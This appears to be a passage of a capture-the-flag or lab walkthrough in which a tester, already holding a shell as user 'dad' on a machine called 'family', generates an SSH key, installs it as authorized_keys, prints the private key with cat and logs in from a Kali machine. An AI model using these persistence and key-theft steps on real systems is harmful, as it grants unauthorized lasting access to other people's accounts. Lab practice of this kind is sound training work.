



4.7 Create key for user "dad"
You have to connect as user “dad”, but you don't have a key. Create one and copy it to your Kali Machine to connect.
1. On your dad's shell run the following commands.
dad@family:~$ cd .ssh
dad@family:~/.ssh$ ssh-keygen
dad@family:~/.ssh$ mv id_rsa.pub authorized_keys
Choose the defaut values.
Output:

2. Get the “id_rsa” file's content.
dad@family:~/.ssh$ cat id_rsa
Output:

3. On your Kali Machine create a file called “id_rsa” and paste the result from the previous step and save the file.
$ nano id_rsa
4. Change the “id_rsa” file's permissions.
$ chmod 600 id_rsa 5. Connect via SSH as user “dad” with the key you have.
$ ssh -6 dad@fe80::a00:27ff:fe73:88a3%eth0 -i id_rsa
Output:
